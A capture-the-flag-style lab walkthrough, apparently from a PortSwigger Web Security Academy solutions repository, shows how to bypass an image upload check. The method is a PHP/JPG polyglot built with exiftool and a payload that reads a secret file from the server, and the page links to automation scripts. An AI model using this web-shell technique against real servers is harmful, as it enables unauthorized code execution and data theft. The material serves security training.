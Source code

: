 # Lab 6: Remote code execution via polyglot web shell upload
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution
> Manual Exploitation
1. On your system, create a file called `exploit.php` containing a script for fetching the contents of Carlos's secret. For example:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:
```php
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```
This adds your PHP payload to the image's `Comment` field, then saves the image with a `.php` extension.
4. In the browser, upload the polyglot image as your avatar, then go back to your account page.
5. In Burp's proxy history, find the `GET /files/avatars/polyglot.php` request. Use the message editor's search feature to find the `START` string somewhere within the binary image data in the response. Between this and the `END` string, you should see Carlos's secret, for example:
```
START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END
```
6. Submit the secret to solve the lab.
> Automating the process
- [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/File%20Upload%20Vulnerabilities/lab-06/lab-06-script.py)
- [Shell](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/File%20Upload%20Vulnerabilities/lab-06/lab-06-shell.py)

## Video Solution
- [Intigriti's Solution](https://youtu.be/uGk5_yDbSeQ)
